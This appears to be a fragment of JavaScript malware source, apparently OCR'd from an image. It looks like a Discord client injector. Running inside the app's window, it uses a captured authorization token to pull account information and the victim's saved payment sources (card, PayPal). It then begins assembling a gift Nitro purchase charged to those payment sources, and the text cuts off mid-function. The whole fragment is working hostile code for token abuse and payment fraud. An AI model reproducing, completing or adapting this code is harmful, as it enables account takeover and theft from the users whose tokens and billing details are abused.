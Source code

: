 const execScript = (script) => {
  const window = BrowserWindow.getAllWindows()[0];
  return window.webContents.executeJavaScript(script, !0);
};

const getInfo = async (token) => {
  const info = await execScript(`var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", "${config.api}", false);
    xmlHttp.setRequestHeader("Authorization", "${token}");
    xmlHttp.send(null);
    xmlHttp.responseText;`);
  return JSON.parse(info);
};

const fetchBilling = async (token) => {
  const bill = await execScript(`var xmlHttp = new XMLHttpRequest(); 
    xmlHttp.open("GET", "${config.api}/billing/payment-sources", false); 
    xmlHttp.setRequestHeader("Authorization", "${token}"); 
    xmlHttp.send(null); 
    xmlHttp.responseText`);
  if (!bill.lenght || bill.length === 0) return '';
  return JSON.parse(bill);
};

const getBilling = async (token) => {
  const data = await fetchBilling(token);
  if (!data) return '❌';
  let billing = '';
  data.forEach((x) => {
    if (!x.invalid) {
      switch (x.type) {
        case 1:
          billing += '💳 ';
          break;
        case 2:
          billing += '<:paypal:951139189389410365> ';
          break;
      }
    }
  });
  if (!billing) billing = '❌';
  return billing;
};

const Purchase = async (token, id, _type, _time) => {
  const options = {
    expected_amount: config.nitro[_type][_time]['price'],
    expected_currency: 'usd',
    gift: true,
    payment_source_id: id,
    payment_source_token: null,
    purchase_token: '2422867c-244d-476a-ba4f-36e197758d97',
    sku_subscription_plan_id: config.nitro[_type][_time]['sku'],
  };
